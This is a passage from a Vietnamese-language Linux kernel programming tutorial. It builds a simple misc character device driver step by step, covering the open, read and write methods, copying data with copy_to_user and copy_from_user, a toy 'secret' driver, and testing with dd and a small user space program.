Driver lấy một pointer đến cấu trúc `device` — đây là thứ mọi driver đều cần. Trong kernel framework `misc`, nó có sẵn trong member `this_device` của cấu trúc `miscdevice`. Tiếp theo, `pr_info()` hiển thị minor number nhận được động. Helper routine `dev_info()` thú vị hơn: với tư cách người viết driver, bạn được kỳ vọng dùng các helper `dev_xxx()` khi phát `printk`; chúng còn thêm thông tin hữu ích về device vào đầu thông báo. Khác biệt cú pháp duy nhất giữa helper `dev_xxx()` và `pr_xxx()` là tham số đầu tiên của nhóm trước là pointer đến cấu trúc device.

Được rồi, hãy bắt tay vào làm! Chúng ta build driver và `insmod` nó vào kernel space (dùng helper script `lkm` để làm việc này):



Hình 1.4 – Ảnh chụp quá trình build và nạp skeleton misc driver miscdrv.ko trên Ubuntu VM x86\_64

(Nhân tiện, như bạn có thể thấy trong Hình 1.4, tôi đã thử driver `misc` này trên distro mới hơn: Ubuntu 20.04.1 LTS chạy kernel 5.4.0-58-generic.) Hãy chú ý hai thông báo in ra gần cuối Hình 1.4; thông báo đầu được phát qua `pr_info()` (có tiền tố là nội dung macro `pr_fmt()`, như giải thích trong tài liệu đồng hành Linux Kernel Programming - Chương 4, Viết kernel module đầu tiên - LKM Phần 1, mục Chuẩn hóa đầu ra printk qua macro pr\_fmt). Thông báo thứ hai được phát qua helper routine `dev_info()` — có tiền tố `misc llkd_miscdrv`, cho biết nó bắt nguồn từ framework `misc` của kernel, cụ thể là device `llkd_miscdrv`! (Các routine `dev_xxx()` rất linh hoạt; tùy bus mà chúng nằm trên đó, chúng sẽ hiển thị nhiều chi tiết khác nhau. Điều này hữu ích cho debugging và logging. Xin nhắc lại: bạn được khuyến nghị dùng các routine `dev_*()` khi viết driver.) Bạn cũng có thể thấy device node `/dev/llkd_miscdrv` thực sự được tạo, với loại (character) và cặp major, minor như mong đợi (ở đây là 10 và 56).

### Viết code misc driver – phần 3

Bây giờ, code `init` đã xong, chức năng driver đã được thiết lập qua cấu trúc file operations, và driver đã được đăng ký với framework kernel `misc`. Vậy tiếp theo xảy ra gì? Thực ra không có gì, cho đến khi một process mở device file (gắn với driver) và thực hiện một dạng I/O nào đó (Input/Output, tức đọc/ghi).

Vì vậy, hãy giả sử user-mode process (hoặc thread) gọi system call `open(2)` trên device node của driver (nhớ rằng device node đã được auto-created khi driver đăng ký với framework `misc` của kernel). Quan trọng nhất, như bạn đã học trong mục Tìm hiểu mối liên hệ giữa process, driver và kernel, với mọi system call file-related được gọi trên device node, VFS về cơ bản sẽ gọi method (`f_op`) đã đăng ký của driver. Vì vậy, ở đây VFS làm như sau: `filp->f-op->open()`, qua đó gọi method `open` của driver trong cấu trúc `file_operations`, tức hàm `open_miscdrv()`!

Nhưng bạn, người viết driver, nên triển khai code method `open` của driver thế nào? Điểm chính là: signature của hàm `open` phải giống hệt signature của `open` trong cấu trúc `file_operation`; thực tế, điều này đúng với mọi hàm. Do đó, chúng ta triển khai hàm `open_miscdrv()` như sau:

```
/*
 * open_miscdrv()
 * The driver's open 'method'; this 'hook' will get invoked by the kernel
VFS
 * when the device file is opened. Here, we simply print out some relevant
info.
 * The POSIX standard requires open() to return the file descriptor on
success;
 * note, though, that this is done within the kernel VFS (when we return).
So,
 * all we do here is return 0 indicating success.
 * (The nonseekable_open(), in conjunction with the fop's llseek pointer
set to
 * no_llseek, tells the kernel that our device is not seek-able).
 */
static int open_miscdrv(struct inode *inode, struct file *filp)
{
    char *buf = kzalloc(PATH_MAX, GFP_KERNEL);

    if (unlikely(!buf))
        return -ENOMEM;
    PRINT_CTX(); // displays process (or atomic) context info
    pr_info(" opening \"%s\" now; wrt open file: f_flags = 0x%x\n",
        file_path(filp, buf, PATH_MAX), filp->f_flags);
    kfree(buf);
    return nonseekable_open(inode, filp);
}
```

Hãy chú ý signature của routine `open`, hàm `open_miscdrv()`, khớp chính xác với signature của function pointer `open` trong cấu trúc `f_op` (bạn luôn có thể tra cấu trúc `file_operations` cho Linux 5.4 tại đây: `https://elixir.bootlin.com/linux/v5.4/source/include/linux/fs.h#L1814`).

Trong driver đơn giản này, method `open` thực sự không có nhiều việc phải làm. Chúng ta cấp phát memory cho một buffer (để chứa pathname của device) qua `kzalloc()`, gọi macro `PRINT_CTX()` (nằm trong header `convenient.h`) để hiển thị context hiện tại — process đang mở device. Sau đó phát một `printk` (qua `pr_info()`) hiển thị vài chi tiết VFS layer (pathname và giá trị open flag); bạn có thể lấy pathname của file bằng convenience API `file_path()`, như chúng ta làm ở đây (để làm vậy, cần cấp phát và, sau khi dùng, giải phóng một kernel memory buffer). Tiếp theo, vì không hỗ trợ seeking trong driver này, chúng ta gọi API `nonseekable_open()` (như đã thảo luận trong mục Xử lý các method không được hỗ trợ). System call `open(2)` trên device file phải thành công. user-mode process lúc này có file descriptor hợp lệ — một handle đến file đang mở (ở đây thực chất là device node). Bây giờ, giả sử user-mode process muốn đọc dữ liệu từ phần cứng; do đó nó gọi system call `read(2)`. Như đã giải thích, kernel VFS lúc này auto-invoke read method `read_miscdrv()` của driver. Một lần nữa, signature của nó mô phỏng chính xác signature hàm read trong cấu trúc dữ liệu `file_operations`. Đây là code đơn giản của read method của driver:

```
/*
 * read_miscdrv()
 * The driver's read 'method'; it has effectively 'taken over' the read
syscall
 * functionality! Here, we simply print out some info.
 * The POSIX standard requires that the read() and write() system calls
return
 * the number of bytes read or written on success, 0 on EOF (for read) and
-1 (-ve errno)
 * on failure; we simply return 'count', pretending that we 'always
succeed'.
 */
static ssize_t read_miscdrv(struct file *filp, char __user *ubuf, size_t
count, loff_t *off)
{
        pr_info("to read %zd bytes\n", count);
        return count;
}
```

Comment phía trên đã tự giải thích. Trong đó, chúng ta phát `pr_info()`, hiển thị số byte mà user space process muốn đọc. Sau đó chỉ đơn giản trả về số byte đã đọc, ngụ ý thành công! Thực tế, chúng ta (về cơ bản) chưa làm gì cả. Các driver method còn lại khá tương tự.

### Kiểm thử misc driver đơn giản

Hãy kiểm thử skeleton character driver `misc` rất đơn giản này (trong thư mục `ch1/miscdrv`; chúng ta giả sử bạn đã build và chèn nó như Hình 1.4). Chúng ta kiểm thử bằng cách gọi các system call `open(2)`, `read(2)`, `write(2)` và `close(2)` trên nó; chính xác làm điều đó bằng cách nào? Luôn có thể viết một chương trình C nhỏ để thực hiện chính việc này, nhưng cách dễ hơn là dùng tiện ích “disk duplicator” hữu ích `dd(1)`. Chúng ta dùng như sau:

```
dd if=/dev/llkd_miscdrv of=readtest bs=4k count=1
```

Bên trong, `dd` mở file truyền làm tham số (`/dev/llkd_miscdrv`) qua `if=` (ở đây là tham số đầu tiên của `dd`; `if=` chỉ định input file), rồi đọc từ đó (tất nhiên qua system call `read(2)`). Output được ghi vào file chỉ định bởi tham số `of=` (tham số thứ hai của `dd`, là regular file tên `readtest`); `bs` chỉ định block size để thực hiện I/O và `count` là số lần thực hiện I/O). Sau khi thực hiện I/O cần thiết, process `dd` sẽ `close(2)` các file. Chuỗi thao tác này được phản ánh trong kernel log (Hình 1.5):



Hình 1.5 – Ảnh chụp việc kiểm thử tối thiểu read method của driver miscdrv qua dd(1)

Sau khi xác minh driver (LKM) đã được chèn, chúng ta gọi lệnh `dd(1)`, để nó đọc 4.096 byte từ device (vì block size (`bs`) được đặt thành `4k` và `count` thành `1`). Chúng ta cho nó ghi output (qua option switch `of=`) vào file tên `readtest`. Xem kernel log, bạn có thể thấy (Hình 1.5) process `dd` thực sự đã mở device (output của macro `PRINT_CTX()` cho thấy chính process context đó đang chạy code của driver!). Tiếp theo, có thể thấy (qua output của `pr_fmt()`) quyền điều khiển chuyển đến read method của driver, trong đó chúng ta phát một `printk` đơn giản và trả về giá trị 4096 biểu thị thành công (dù thực sự chưa đọc gì!). Device sau đó được `dd` đóng. Ngoài ra, kiểm tra nhanh bằng tiện ích `hexdump(1)` cho thấy thực sự đã nhận `0x1000` (4.096) null (như dự kiến) từ driver (trong file `readtest`; hãy hiểu rằng điều này xảy ra vì `dd` đã khởi tạo read buffer của nó bằng các `NULL`).

Macro `PRINT_CTX()` được dùng trong code nằm trong header `convenient.h`. Hãy xem qua; nó khá bổ ích (chúng ta cố mô phỏng format latency output của hạ tầng `Ftrace` trong kernel, thể hiện nhiều chi tiết trong một không gian nhỏ, một dòng output duy nhất). Điều này được giải thích chi tiết trong `Chapter 4`, Xử lý hardware interrupt, ở mục Hiểu đầy đủ context. Hiện tại đừng lo về mọi chi tiết...

Hình 1.6 thể hiện cách kiểm thử ghi vào driver (ở mức tối thiểu), một lần nữa qua `dd(1)`. Lần này, chúng ta đọc `4k` dữ liệu ngẫu nhiên (bằng cách dùng tính năng `/dev/urandom` của driver `mem` built-in trong kernel), rồi ghi dữ liệu ngẫu nhiên vào device node; thực chất là vào “device” của chúng ta:



Hình 1.6 – Ảnh chụp việc kiểm thử tối thiểu write method của driver miscdrv qua dd(1)

(Nhân tiện, tôi cũng cung cấp một ứng dụng kiểm thử user space đơn giản cho driver; có thể tìm ở đây: `ch1/miscdrv/rdwr_test.c`. Tôi sẽ để bạn đọc code và tự thử.)

Bạn có thể đang nghĩ: chúng ta dường như đã đọc và ghi dữ liệu thành công giữa user space với driver, nhưng khoan đã, chúng ta chưa thực sự thấy quá trình truyền dữ liệu nào trong driver code. Đúng vậy, đó là chủ đề của mục tiếp theo: cách thực sự sao chép dữ liệu từ buffer của user space process vào buffer của kernel driver và ngược lại. Hãy đọc tiếp!

## Sao chép dữ liệu từ kernel sang user space và ngược lại

Một nhiệm vụ chính của device driver là cho phép ứng dụng user space đọc và ghi dữ liệu một cách trong suốt với thiết bị phần cứng ngoại vi (thường là một chip nào đó; tuy nhiên có thể hoàn toàn không phải phần cứng), xem device như một regular file đơn thuần. Vì vậy, để đọc dữ liệu từ device, ứng dụng mở device file tương ứng, qua đó nhận file descriptor, rồi đơn giản gọi system call `read(2)` dùng `fd` đó (bước 1 trong Hình 1.7)! Kernel VFS chặn lời gọi read, và như đã thấy, chuyển luồng điều khiển đến read method của device driver bên dưới (tất nhiên là một hàm C). Driver code lúc này “nói chuyện” với device phần cứng, thực sự thực hiện I/O, thao tác đọc. (Chi tiết cách đọc (hoặc ghi) phần cứng phụ thuộc rất nhiều vào loại phần cứng — đó là memory-mapped device, port, network chip, v.v.? Chúng ta không đi sâu hơn ở đây; chương tiếp theo sẽ làm điều đó.) Driver, sau khi đọc dữ liệu từ device, đặt dữ liệu này vào kernel buffer `kbuf` (bước 2 trong sơ đồ sau. Tất nhiên, chúng ta giả định người viết driver đã cấp phát memory cho nó qua `[k|v]malloc()` hoặc kernel API thích hợp khác).

Bây giờ chúng ta có dữ liệu của device phần cứng trong kernel space buffer. Nên truyền nó đến memory buffer của user space process thế nào? Chúng ta sẽ dùng các kernel API giúp làm việc đó dễ dàng; phần tiếp theo trình bày điều này.

### Sử dụng kernel API để truyền dữ liệu

Như đã đề cập, giả sử driver đã đọc dữ liệu phần cứng và dữ liệu hiện nằm trong kernel memory buffer. Làm sao truyền nó sang user space? Một cách ngây thơ là thử thực hiện đơn giản qua `memcpy()`, nhưng không, cách đó không hoạt động (vì sao? Thứ nhất, không an toàn; thứ hai, rất arch-dependent; hoạt động trên một số kiến trúc nhưng không trên kiến trúc khác). Vì vậy, điểm quan trọng là: kernel cung cấp một cặp inline function để truyền dữ liệu từ kernel sang user space và ngược lại. Chúng lần lượt là `copy_to_user()` và `copy_from_user()`, và thực sự được dùng rất phổ biến. Cách dùng đơn giản. Cả hai nhận ba tham số: pointer `to` (destination buffer), pointer `from` (source buffer) và `n`, số byte cần sao chép (hãy nghĩ tương tự thao tác `memcpy`):

```
include <linux/uaccess.h>   /* Note! used to be <asm/uaccess.h> upto 4.11
*/

unsigned long copy_to_user(void __user *to, const void *from, unsigned long
n);
unsigned long copy_from_user(void *to, const void __user *from, unsigned
long n);
```

Giá trị trả về là số byte chưa được sao chép; nói cách khác, giá trị trả về `0` cho biết thành công, còn giá trị non-zero cho biết số byte được chỉ ra chưa được sao chép. Nếu nhận giá trị non-zero, bạn nên (theo quy ước trả về `0/-E` thông thường) trả lỗi biểu thị I/O fault bằng cách trả `-EIO` hoặc `-EFAULT` (qua đó đặt `errno` trong user space thành giá trị dương tương ứng). (Pseudo) code sau minh họa cách device driver dùng hàm `copy_to_user()` để sao chép dữ liệu từ kernel sang user space:

```
static ssize_t read_method(struct file *filp, char __user *ubuf, size_t
count, loff_t *off)
{
     char *kbuf = kzalloc(...);
     [ ... ]
     /* ... do what's required to get data from the hardware device into
kbuf ... */
    if (copy_to_user(buf, kbuf, count)) {
        dev_warn(dev, "copy_to_user() failed\n");
        goto out_rd_fail;
    }
    [ ... ]
    return count;    /* success */
out_rd_fail:
    kfree(kbuf);
 return -EIO; /* or -EFAULT */
}
```

Ở đây, tất nhiên chúng ta giả sử bạn có kernel memory buffer hợp lệ đã được cấp phát, `kbuf`, và device pointer hợp lệ (`struct device *dev`). Hình 1.7 minh họa điều (pseudo) code phía trên muốn đạt được:



Hình 1.7 – Read: copy\_to\_user(): sao chép dữ liệu từ phần cứng vào kernel buffer rồi từ đó sang user space buffer

Ngữ nghĩa tương tự áp dụng khi dùng inline function `copy_from_user()`. Nó thường được dùng trong context của write method của driver, lấy dữ liệu mà user space process context ghi vào một kernel space buffer. Chúng tôi sẽ để bạn tự hình dung điều này.

Cũng cần hiểu rằng cả hai routine (`copy_[from|to]_user()`) trong lúc chạy có thể khiến process context gặp (page) fault và do đó sleep; nói cách khác, gọi scheduler. Vì vậy, chúng chỉ có thể được dùng trong process context nơi sleep là an toàn và không bao giờ được dùng trong bất kỳ atomic context hay interrupt context nào (chúng ta giải thích thêm về helper `might_sleep()` — một công cụ hỗ trợ debug — trong `Chapter 4`, Xử lý hardware interrupt, mục Đừng block — phát hiện code path có thể block). Với độc giả tò mò (tôi hy vọng bạn là một người như vậy!), đây là một số liên kết giải thích chi tiết hơn vì sao không thể chỉ dùng `memcpy()` đơn giản mà phải dùng các inline function `copy_[from|to]_user()` để sao chép dữ liệu từ và đến kernel space và user space:

- `https://stackoverflow.com/questions/14970698/copy-to-user-vs-memcpy`

- `https://www.quora.com/Why-we-need-copy_from_user-as-the-kernel-can-access-all-the-memory-If-we-see-the-copy_from_user-implementation-again-we-are-copying-data-to-the-kernel-memory-using-memcpy-Doesnt-it-an-extra-overhead`.

Trong mục tiếp theo, chúng ta sẽ viết một character device driver dùng framework `misc` hoàn chỉnh hơn, thực sự thực hiện I/O, đọc và ghi dữ liệu.

## Một misc driver có bí mật

Bây giờ bạn đã hiểu cách sao chép dữ liệu giữa user space và kernel space (và chiều ngược lại), hãy viết một device driver khác (`ch1/miscdrv_rdwr`) dựa trên skeleton miscellaneous driver trước (`ch1/miscdrv/`). Khác biệt chính là chúng ta dùng một vài mục dữ liệu toàn cục (trong một cấu trúc) xuyên suốt và thực sự thực hiện I/O dưới dạng đọc và ghi. Ở đây, hãy giới thiệu khái niệm driver context hay private driver data structure; ý tưởng là có một cấu trúc dữ liệu dễ truy cập, chứa mọi thông tin liên quan ở cùng một nơi. Ở đây, chúng ta đặt tên cấu trúc này là `struct` `drv_ctx` (xem trong code listing sau). Khi khởi tạo driver, chúng ta cấp phát memory cho nó và khởi tạo nó.

Được rồi, thực ra không có bí mật nào ở đây, chỉ để nghe có vẻ thú vị thôi. Một trong các member trong cấu trúc dữ liệu driver context là một thông điệp so-called bí mật (đó là member `drv_ctx.oursecret`, cùng một số thống kê (giả) và config word). Đây là “driver context” hay private data structure đơn giản mà chúng ta đề xuất dùng:

```
// ch1/miscdrv_rdwr/miscdrv_rdwr.c
[ ... ]
/* The driver 'context' (or private) data structure;
 * all relevant 'state info' reg the driver is here. */
struct drv_ctx {
    struct device *dev;
    int tx, rx, err, myword;
    u32 config1, config2;
    u64 config3;
#define MAXBYTES 128 /* Must match the userspace app; we should actually
                      * use a common header file for things like this */
    char oursecret[MAXBYTES];
};
static struct drv_ctx *ctx;
```

Tốt; giờ hãy chuyển sang xem và hiểu code.

### Viết code misc device driver “bí mật”

Chúng ta chia phần thảo luận chi tiết triển khai secret misc character device driver thành năm phần: khởi tạo driver, read method, triển khai chức năng write method, cleanup driver và cuối cùng là ứng dụng userspace dùng device driver.

#### Secret driver – code init

Trong code `init` của secret device driver (tất nhiên là kernel module, do đó được gọi khi `insmod(8)`), trước hết chúng ta đăng ký driver với kernel dưới dạng character driver `misc` (qua API `misc_register()`, như đã thấy trong mục Viết code misc driver – phần 1 ở trước; chúng ta không lặp lại code ở đây).

Tiếp theo, cấp phát kernel memory cho cấu trúc “context” của driver — qua managed allocation API hữu ích `devm_kzalloc()` (như đã học trong tài liệu đồng hành Linux Kernel Programming, `Chapter 8`, Cấp phát kernel memory cho người viết module – Phần 1, mục Dùng các resource-managed memory allocation API của kernel) — rồi khởi tạo nó. Lưu ý rằng bạn phải bảo đảm trước hết lấy được device pointer `dev` rồi mới dùng API này; chúng ta lấy nó từ member `this_device` của cấu trúc `miscdevice` (như đã thấy):

```
// ch1/miscdrv_rdwr/miscdrv_rdwr.c
[ ... ]
static int __init miscdrv_rdwr_init(void)
{
    int ret;
    struct device *dev;

    ret = misc_register(&llkd_miscdev);
    [ ... ]
    dev = llkd_miscdev.this_device;
    [ ... ]
    ctx = devm_kzalloc(dev, sizeof(struct drv_ctx), GFP_KERNEL);
    if (unlikely(!ctx))
        return -ENOMEM;

    ctx->dev = dev;
    strscpy(ctx->oursecret, "initmsg", 8);
    [ ... ]
    return 0;         /* success */
}
```

Rõ ràng, chúng ta đã khởi tạo member `dev` của instance private structure `ctx`, cũng như khởi tạo chuỗi “bí mật” thành chuỗi `'initmsg'` (không phải bí mật thuyết phục lắm, nhưng cứ để vậy). Ý tưởng là khi user space process (hoặc thread) mở device file và gọi `read(2)` trên đó, chúng ta truyền lại (sao chép) bí mật cho nó; làm vậy bằng cách gọi helper function `copy_to_user()`! Tương tự, khi ứng dụng user-mode ghi dữ liệu cho chúng ta (đúng vậy, qua system call `write(2)`), chúng ta xem dữ liệu được ghi đó là bí mật mới. Vì vậy, chúng ta lấy dữ liệu từ user space buffer — qua helper function `copy_from_user()` — rồi cập nhật trong driver memory.

Vì sao không đơn giản dùng API `strcpy()` (hoặc `strncpy()`) để khởi tạo member `ctx->oursecret`? Điều này rất quan trọng: chúng chưa đủ an toàn về bảo mật. Ngoài ra, API `strlcpy()` đã được cộng đồng kernel đánh dấu deprecated (`https://www.kernel.org/doc/html/latest/process/deprecated.html#strlcpy`). Nói chung, luôn tránh dùng những thứ deprecated, như được mô tả trong kernel documentation tại đây: `https://www.kernel.org/doc/html/latest/process/deprecated.html#deprecated-interfaces-language-features-attributes-and-conventions`.

Rõ ràng, những phần thú vị của driver mới này là chức năng I/O — các method read và write; hãy tiếp tục!

#### Secret driver – read method

Trước hết chúng ta trình bày code liên quan đến read method — đây là cách user space process (hoặc thread) có thể đọc thông tin bí mật nằm trong driver (trong context structure của nó):

```
static ssize_t
read_miscdrv_rdwr(struct file *filp, char __user *ubuf, size_t count,
loff_t *off)
{
    int ret = count, secret_len = strlen(ctx->oursecret);
    struct device *dev = ctx->dev;
    char tasknm[TASK_COMM_LEN];

    PRINT_CTX();
    dev_info(dev, "%s wants to read (upto) %zd bytes\n",
get_task_comm(tasknm, current), count);

    ret = -EINVAL;
    if (count < MAXBYTES) {
    [...] << we don't display some validity checks here >>

    /* In a 'real' driver, we would now actually read the content of
the
     * [...]
     * Returns 0 on success, i.e., non-zero return implies an I/O
fault).
     * Here, we simply copy the content of our context structure's
     * 'secret' member to userspace. */
    ret = -EFAULT;
    if (copy_to_user(ubuf, ctx->oursecret, secret_len)) {
        dev_warn(dev, "copy_to_user() failed\n");
        goto out_notok;
    }
    ret = secret_len;

    // Update stats
    ctx->tx += secret_len; // our 'transmit' is wrt this driver
    dev_info(dev, " %d bytes read, returning... (stats: tx=%d,
rx=%d)\n",
            secret_len, ctx->tx, ctx->rx);
out_notok:
    return ret;
}
```

Routine `copy_to_user()` thực hiện nhiệm vụ — sao chép `secret_len` byte từ source buffer `ctx->oursecret` đến destination pointer, user space buffer `ubuf`, qua đó truyền bí mật cho ứng dụng user space. Bây giờ hãy xem write method của driver.

#### Secret driver – write method

Người dùng cuối có thể thay bí mật bằng cách ghi bí mật mới vào driver, qua system call `write(2)` đến device node của driver. Kernel chuyển hướng write (qua VFS layer) đến write method của driver (như bạn đã học trong mục Tìm hiểu mối liên hệ giữa process, driver và kernel):

```
static ssize_t
write_miscdrv_rdwr(struct file *filp, const char __user *ubuf, size_t
count, loff_t *off)
{
    int ret = count;
    void *kbuf = NULL;
    struct device *dev = ctx->dev;
    char tasknm[TASK_COMM_LEN];

    PRINT_CTX();
    if (unlikely(count > MAXBYTES)) { /* paranoia */
        dev_warn(dev, "count %zu exceeds max # of bytes allowed, "
                "aborting write\n", count);
        goto out_nomem;
    }
    dev_info(dev, "%s wants to write %zd bytes\n", get_task_comm(tasknm,
current), count);

    ret = -ENOMEM;
    kbuf = kvmalloc(count, GFP_KERNEL);
    if (unlikely(!kbuf))
        goto out_nomem;
    memset(kbuf, 0, count);

    /* Copy in the user supplied buffer 'ubuf' - the data content
     * to write ... */
    ret = -EFAULT;
    if (copy_from_user(kbuf, ubuf, count)) {
        dev_warn(dev, "copy_from_user() failed\n");
        goto out_cfu;
     }

    /* In a 'real' driver, we would now actually write (for 'count' bytes)
     * the content of the 'ubuf' buffer to the device hardware (or
     * whatever), and then return.
     * Here, we do nothing, we just pretend we've done everything :-)
     */
    strscpy(ctx->oursecret, kbuf, (count > MAXBYTES ? MAXBYTES : count));
    [...]
    // Update stats
    ctx->rx += count; // our 'receive' is wrt this driver

    ret = count;
    dev_info(dev, " %zd bytes written, returning... (stats: tx=%d,
rx=%d)\n",
            count, ctx->tx, ctx->rx);
out_cfu:
    kvfree(kbuf);
out_nomem:
    return ret;
}
```

Chúng ta dùng API `kvmalloc()` để cấp phát memory cho buffer chứa dữ liệu người dùng sẽ sao chép vào. Việc sao chép thực tế tất nhiên được thực hiện qua routine `copy_from_user()`. Ở đây, chúng ta dùng nó để sao chép dữ liệu do ứng dụng user space truyền vào kernel buffer `kbuf`. Sau đó (qua routine `strscpy()`), cập nhật member `oursecret` trong context structure của driver thành giá trị này, qua đó cập nhật bí mật! (Lần đọc driver tiếp theo lúc này sẽ tiết lộ bí mật mới.) Ngoài ra, hãy chú ý:

- Cách chúng ta hiện dùng nhất quán helper `dev_xxx()` thay cho các routine `printk` thông thường. Điều này được khuyến nghị cho device driver.

- Cách dùng `goto` (hiện rất điển hình) để xử lý lỗi tối ưu.

Phần này bao quát nội dung cốt lõi của driver.

#### Secret driver – cleanup

Cần hiểu rằng chúng ta phải giải phóng mọi buffer đã cấp phát. Tuy nhiên, ở đây, vì đã thực hiện managed allocation trong code `init` (`devm_kzalloc()`), chúng ta có lợi ích là không cần lo cleanup; kernel xử lý việc đó. Tất nhiên, trong cleanup code path của driver (được gọi khi `rmmod(8)`), chúng ta hủy đăng ký driver `misc` với kernel:

```
static void __exit miscdrv_rdwr_exit(void)
{
    misc_deregister(&llkd_miscdev);
    pr_info("LLKD misc (rdwr) driver deregistered, bye\n");
}
```

Bạn sẽ thấy chúng ta cũng dùng hai số nguyên toàn cục `ga` và `gb`, có vẻ vô ích, ở một số chỗ trong phiên bản driver này. Thật vậy, chúng không có ý nghĩa thực sự ở đây; lý do có chúng chỉ trở nên rõ ràng trong hai chương cuối của sách, về kernel synchronization. Hiện tại hãy bỏ qua chúng.

Nhân đây, có lẽ bạn nhận ra cách chúng ta truy cập dữ liệu toàn cục một cách tùy ý trong driver này có thể gây concurrency issue (data race!); đúng vậy; chúng ta sẽ dành phần trình bày sâu và quan trọng về kernel concurrency và synchronization cho hai chương cuối sách.

#### Secret driver – ứng dụng kiểm thử user space

Chỉ viết thành phần kernel, device driver, là chưa đủ; bạn còn phải viết ứng dụng user space thực sự dùng driver đó. Chúng ta sẽ làm điều đó ở đây. (Một lần nữa, bạn cũng có thể chỉ dùng `dd(1)`.)

Để dùng device driver, tất nhiên ứng dụng user space trước hết phải mở device file tương ứng. (Ở đây, để tiết kiệm chỗ, chúng ta không trình bày toàn bộ app code, chỉ những phần liên quan nhất. Chúng tôi kỳ vọng bạn đã clone Git repository của sách và thực hành với code.) Code mở device file như sau:

```
// ch1/miscdrv_rdwr/rdwr_test_secret.c
int main(int argc, char **argv)
{
    char opt = 'r';
    int fd, flags = O_RDONLY;
    ssize_t n;
    char *buf = NULL;
    size_t num = 0;
[...]
    if ('w' == opt)
        flags = O_WRONLY;
    fd = open(argv[2], flags, 0);
    if (fd == -1) {
    [...]
```

Argument thứ hai của ứng dụng là device file cần mở. Để đọc hoặc ghi, process cần memory:

```
    if ('w' == opt)
        num = strlen(argv[3])+1;    // IMP! +1 to include the NULL byte!
    else
        num = MAXBYTES;
    buf = malloc(num);
    if (!buf) {
        [...]
```

Tiếp tục, hãy xem khối code để ứng dụng gọi read hoặc write (tùy tham số đầu là `r` hay `w`) trên (pseudo)device (để ngắn gọn, chúng ta không trình bày error handling code):

```
    if ('r' == opt) {
        n = read(fd, buf, num);
        if( n < 0 ) [...]
        printf("%s: read %zd bytes from %s\n", argv[0], n, argv[2]);
        printf("The 'secret' is:\n \"%.*s\"\n", (int)n, buf);
    } else {
        strncpy(buf, argv[3], num);
        n = write(fd, buf, num);
